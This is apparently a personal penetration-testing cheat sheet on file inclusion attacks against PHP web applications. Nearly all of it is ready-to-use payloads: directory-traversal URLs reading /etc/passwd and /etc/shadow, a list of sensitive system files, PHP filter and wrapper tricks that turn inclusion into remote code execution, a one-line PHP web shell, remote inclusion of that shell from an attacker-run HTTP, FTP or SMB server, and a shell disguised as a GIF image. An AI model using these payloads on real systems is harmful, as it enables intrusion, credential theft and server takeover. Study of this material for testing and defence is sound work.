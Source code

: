 #### Basic LFI (null byte, double encoding and other tricks) :

```bash
http://example.com/index.php?page=/etc/passwd
http://example.com/index.php?page=/etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?language=./languages/../../../../etc/passwd
```

#### Interesting files to check out :
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline

# Checking PHP Configurations, apache
/etc/php/X.Y/apache2/php.ini
# nginx
/etc/php/X.Y/fpm/php.ini
```

#### PHP Filters
Fuzzing for PHP Files to use the filters on them[enumerate with ffuf](obsidian://open?vault=Obsidian%20Vault&file=Tools%2Fffuf).
**Tip:** Unlike normal web application usage, we are not restricted to pages with HTTP response code 200, as we have local file inclusion access, so we should be scanning for all codes, including `301`, `302` and `403` pages, and we should be able to read their source code

```bash
# using the base64 filter returned an encoded string instead of the empty result
php://filter/read=convert.base64-encode/resource=config (can be used in fuff also)
```

## Remote Code Execution
#### PHP Wrappers
```bash
### Data Wrapper
# getting the base64
echo '<?php system($_GET["cmd"]); ?>' | base64

# RCE with data Wrapper
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
----------------------------------------------------------------------------------------
### Input Wrapper
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
----------------------------------------------------------------------------------------
### Expect wrapper
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```


## RFI
```bash
# Creating malicious script in PHP
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# creating HTTP server
sudo python3 -m http.server <LISTENING_PORT>

# file include with ftp
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
----------------------------------------------------------------------------------------
# create FTP server
sudo python -m pyftpdlib -p # use the ftp:// scheme insted of http/s://

# if the ftp needs auth 
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
----------------------------------------------------------------------------------------
# create smb server 
impacket-smbserver -smb2support share $(pwd)

# include the script
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami

```


## LFI and File Uploads
```bash
# Crafting Malicious Image
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```